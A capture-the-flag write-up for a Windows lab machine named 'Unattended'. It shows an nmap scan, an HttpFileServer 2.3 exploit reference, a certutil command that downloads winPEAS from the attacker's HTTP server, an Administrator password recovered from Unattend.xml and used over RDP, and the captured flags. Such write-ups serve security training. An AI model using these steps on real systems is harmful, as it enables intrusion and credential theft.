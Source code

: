 # UNATTENDED

![](../.gitbook/assets/58f89e777e384287b47f600f6e74e1b1.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 80 ENUMERATION

* HttpFileServer 2.3

![](../.gitbook/assets/77b233a454c242ad8d1d91bee74ac299.png)

![](../.gitbook/assets/84d7f10232354ad691e92d45c119e426.png)

## EXPLOIT WITHOUT METASPLOIT

* [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

![](../.gitbook/assets/69e29895ed504790a1080e0d7eda9559.png)



* WATCH THE NUMBER OF TRYS \(8\)

![](../.gitbook/assets/1541b4725c9f405ca2d361a33a809e93.png)

## WINPEAS

```text
certutil -urlcache -f http://10.10.0.63:8000/winPEASx64.exe winpeas.exe
```

![](../.gitbook/assets/9870e88053cd44269e26210d2ae547ff.png)

![](../.gitbook/assets/3aca649b350447cb81be7bb2b216d4d9.png)

![](../.gitbook/assets/002ad37dcba3483695266d61c69b29bd.png)

* C:\Windows\Panther\Unattend.xml

![](../.gitbook/assets/9feb1c1b324e4292853b2e16b71ec41b.png)

```text
Administrator:cnt4weRAbtXMTSVV
```

## PRIVESC

![](../.gitbook/assets/9940717168b240efaedbce03d6e1f8fe.png)

* OR 

```text
xfreerdp /u:Administrator /p:cnt4weRAbtXMTSVV /cert:ignore /v:172.31.1.24
```

![](../.gitbook/assets/6986293f44e04528834e83fb5d476ab2.png)

## FLAGS

### USER

```text
423b6ee873126a02f27afe8a4273e1ad
```

### ROOT

```text
e594fe8b3544d60110f79bb58245cbfd
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

